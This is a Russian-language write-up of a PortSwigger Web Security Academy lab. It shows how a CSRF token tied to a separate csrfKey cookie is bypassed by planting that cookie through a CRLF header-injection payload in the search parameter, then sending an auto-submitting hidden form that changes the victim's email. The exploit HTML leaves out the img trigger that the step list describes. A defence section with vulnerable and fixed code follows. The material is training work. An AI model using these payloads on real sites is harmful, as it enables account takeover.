





## Lab: CSRF where token is tied to non-session cookie

**Платформа:** PortSwigger Web Security Academy   
**Категория:** CSRF    
**Сложность:** Practitioner    
**Дата:** 2025-07-21  

---

## TL;DR
CSRF токен существует но привязан к отдельной куке `csrfKey`
а не к сессии. Через Header Injection в функции поиска
принудительно установила жертве свою `csrfKey` куку.
Затем CSRF форма с моим `csrf` токеном прошла проверку
и сменила email жертвы.

---

## Отличие от базового CSRF

```
Базовый CSRF (без токена):
Нет защиты → форму можно отправить напрямую

Эта лаба (токен есть, но слабый):
csrfKey кука + csrf параметр → должны быть парой
НО csrfKey не привязан к сессии →
можно использовать свой csrfKey + свой csrf токен
если установить жертве свою csrfKey куку
```

---

## Разведка

### Шаг 1 — Анализ запроса смены email

Вошла под `wiener:peter`, заполнила форму смены email,
перехватила запрос в Burp:

```http
POST /my-account/change-email HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=СЕССИЯ; csrfKey=МОЙ_CSRF_KEY

email=test@test.com&csrf=МОЙ_CSRF_ТОКЕН
```

Два значения связаны:
```
csrfKey=МОЙ_CSRF_KEY  ← кука
csrf=МОЙ_CSRF_ТОКЕН   ← параметр формы
```



### Шаг 2 — Проверка привязки к сессии

В Burp Repeater проверила:

```
Меняю session → выход из аккаунта (сессия привязана)
Меняю csrfKey → запрос отклонён (токен не совпадает)
```

Затем взяла `csrfKey` и `csrf` из аккаунта `carlos:montoya`
и использовала их в запросе от `wiener:peter`:

```
csrfKey от carlos + csrf от carlos + session от wiener → ПРИНЯТО!
```

Это подтверждает что `csrfKey` **не привязан к сессии** —
можно использовать токены от одного аккаунта в атаке на другой.



### Шаг 3 — Обнаружение Header Injection в поиске

Ввела в поиск специальный запрос с CRLF:

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=test123%3b%20SameSite=None
```

`%0d%0a` — это `\r\n` (перевод строки в HTTP).
Сервер вставил это в ответ:

```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=test
Set-Cookie: csrfKey=test123; SameSite=None
```

Можно принудительно установить **любую куку** любому пользователю
через функцию поиска!



---

## Эксплуатация

### Шаг 4 — Подготовка данных

Из своего аккаунта (`wiener:peter`) взяла:
```
csrfKey = МОЙ_CSRF_KEY
csrf    = МОЙ_CSRF_ТОКЕН
```

### Шаг 5 — Создание exploit payload

На exploit сервере разместила HTML:

```html
<html>
<body>
    <form action="https://LAB-ID.web-security-academy.net/my-account/change-email"
          method="POST">
        <input type="hidden" name="email" value="hacked@evil.com" />
        <input type="hidden" name="csrf" value="МОЙ_CSRF_ТОКЕН" />
    </form>

    
</body>
</html>
```

Что происходит:
```
1. Страница загружается
2. Браузер пытается загрузить img
3. GET запрос на /?search=... уходит на сервер лабы
4. Сервер отвечает: Set-Cookie: csrfKey=МОЙ_CSRF_KEY
5. Браузер жертвы устанавливает нашу csrfKey куку
6. Картинка не загружается (onerror срабатывает)
7. Форма автоматически отправляется
8. Запрос содержит:
   - session=СЕССИЯ_ЖЕРТВЫ (её кука)
   - csrfKey=МОЙ_CSRF_KEY (установили через img)
   - csrf=МОЙ_CSRF_ТОКЕН (в скрытом поле формы)
9. Сервер проверяет: csrfKey + csrf = пара ✓ → принимает
10. Email жертвы изменён
```



### Шаг 6 — Доставка жертве

Нажала **"Deliver to victim"** → лаба решена.



---

## Итог

```
Проблема: csrfKey не привязан к сессии
          → можно использовать чужой токен

Проблема: Header Injection в поиске
          → можно установить жертве любую куку

Связка:   устанавливаем жертве свою csrfKey
          через img src + Header Injection
          → форма с нашим csrf токеном проходит проверку
```

### Почему две слабости опасны вместе

```
Header Injection отдельно:
→ можно установить куку → но зачем?

csrfKey не в сессии отдельно:
→ можно использовать чужой токен → но как установить куку?

Вместе:
→ устанавливаем свою csrfKey жертве через Header Injection
→ используем свой csrf токен в форме
→ полный обход CSRF защиты
```

---

## Защита

```python
# УЯЗВИМО — csrfKey в отдельной куке не привязан к сессии:
def validate_csrf(request):
    csrf_key = request.cookies.get('csrfKey')
    csrf_token = request.form.get('csrf')
    return validate_pair(csrf_key, csrf_token)
    # не проверяем принадлежность к текущей сессии!

# БЕЗОПАСНО — токен привязан к сессии:
def validate_csrf(request):
    session_token = request.session.get('csrf_token')
    form_token = request.form.get('csrf')
    return session_token == form_token
    # токен в сессии — нельзя использовать чужой
```

```python
# УЯЗВИМО — Header Injection через поисковый запрос:
response.headers['Set-Cookie'] = f'LastSearch={search_term}'
# если search_term содержит \r\n — можно добавить заголовки

# БЕЗОПАСНО — валидация и экранирование:
import re
safe_term = re.sub(r'[\r\n]', '', search_term)
response.headers['Set-Cookie'] = f'LastSearch={safe_term}'
```

Дополнительно:
- CSRF токен должен быть привязан к сессии пользователя
- Фильтровать `\r\n` в любых данных которые попадают в HTTP заголовки
- `SameSite=Strict` на сессионных куках как дополнительный слой защиты